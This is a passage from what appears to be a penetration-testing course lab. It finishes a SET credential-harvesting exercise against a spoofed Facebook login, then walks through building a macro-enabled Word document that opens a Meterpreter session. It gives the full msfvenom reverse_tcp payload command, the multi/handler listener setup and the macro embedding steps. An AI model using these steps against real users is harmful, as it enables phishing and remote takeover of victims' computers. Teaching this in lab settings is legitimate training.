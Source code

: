 8.	Enter fake credentials into the fields on the spoofed website. After you’ve filled the fields in with whatever words you wish, press the login button on the website. On your Kali VM, you should see something similar to this in your terminal window:

    ![](../images/lab_set_facebook.png){: .img-responsive width='50%'}
        
# Part 3. SET Discovery

Complete two other attacks of your choosing using SET, and briefly describe your results.

**SET attack 1:**

**SET attack 2:**

# Part 4. Create a Malicious Microsoft Word Document

In this section, you’ll create a macro enabled Microsoft Word file that opens a Meterpreter session on an attacker’s machine. Note that this is a feature of Word, and not a security vulnerability. For this reason, this attack vector will work as long as you can convince a user to open the Word file.

1.	In Kali, run the following command (all one line):

        msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=172.16.1.61 LPORT=8080 -e x86/shikata_ga_nai -f vba-exe

2.	Read the beginning of the output. It explains that the output is divided into two sections: A "Macro" section and a "Payload" section. Copy _all_ of the output from your terminal from this command, and paste it into a text file on your Windows VM (or onto a machine with Microsoft Word).

3.	In Kali, run msfconsole and run the following commands:

        use exploit/multi/handler
        set payload windows/meterpreter/reverse_tcp
        set LPORT 8080
        set LHOST [IP of your Kali VM]
        exploit -j

    The above commands will cause Metasploit to listen on port 8080 for an incoming Meterpreter connection.

4.	Open Word and open the Visual Basic editor. To do this, from the File tab, select Options. Select “Customize Ribbon” from the left-hand side menu, and check the Developer checkbox (see screenshot below).

    ![](../images/lab_11_8.png){: .img-responsive width='70%'}

    From the Developer ribbon, select “Visual Basic” to open the Visual Basic editor.
    
    ![](../images/lab_11_9.png){: .img-responsive width='70%'}
    
    Inside the visual basic editor, right-click the document, select `Insert > Module`. Open the text file with the exploit code that you copied over from Kali. Paste in all of the code in the "Macro" section (**but not the payload**) into the Visual Basic module you just inserted. Save it as a Word macro-enabled document and close the VB editor.
    